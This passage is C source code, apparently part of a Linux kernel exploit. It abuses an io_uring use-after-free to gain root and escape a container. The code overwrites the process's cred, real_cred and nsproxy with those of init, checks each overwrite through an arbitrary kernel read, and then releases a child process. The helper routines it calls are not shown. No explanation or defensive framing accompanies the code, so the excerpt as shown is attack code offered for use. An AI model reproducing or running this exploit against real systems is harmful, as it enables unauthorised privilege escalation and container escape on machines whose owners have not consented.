 ```
    info("Our file descriptor table @ 0x%lx", g_fdt);
    info("Our file array @ 0x%lx", g_file_array);

    // Find our pipe address
    find_pipe_buf_addr();
    info("UAF file addr: 0x%lx", g_file_addr);
    info("Pipe buffer addr: 0x%lx", g_pipe_buf);

    // Set the global scratch space side of the page
    set_scratch_space();
    info("Scratch space base @ 0x%lx", g_scratch);

    // Make a copy of our real io_uring file descriptor since we need to fake
    // one
    info("Making copy of legitimate io_uring fd...");
    make_ring_copy();
    info("Copy done");

    // Overwrite our task's cred with init's
    info("Overwriting our cred with init's...");
    overwrite_cred();

    // Make sure it's correct
    uint64_t check_cred = read_8_at(g_cred_where);
    if (check_cred != g_cred_what)
    {
        err("check_cred: 0x%lx != g_cred_what: 0x%lx",
            check_cred, g_cred_what);
    }

    // Overwrite our real_cred with init's cred
    sleep(1);
    info("Overwriting our real_cred with init's...");
    overwrite_real_cred();

    // Make sure it's correct
    check_cred = read_8_at(g_real_cred_where);
    if (check_cred != g_cred_what)
    {
        err("check_cred: 0x%lx != g_cred_what: 0x%lx", check_cred, g_cred_what);
    }

    // Overwrite our nsproxy with init's
    sleep(1);
    info("Overwriting our nsproxy with init's...");
    overwrite_nsproxy();

    // Make sure it's correct
    check_cred = read_8_at(g_nsproxy_where);
    if (check_cred != g_nsproxy_what)
    {
        err("check_rec: 0x%lx != g_nsproxy_what: 0x%lx",
            check_cred, g_nsproxy_what);
    }

    info("Creds and namespace look good!");
    
    // Let the child loose
    *(int *)g_shmem = 0x1337;

    sleep(3000);
}
```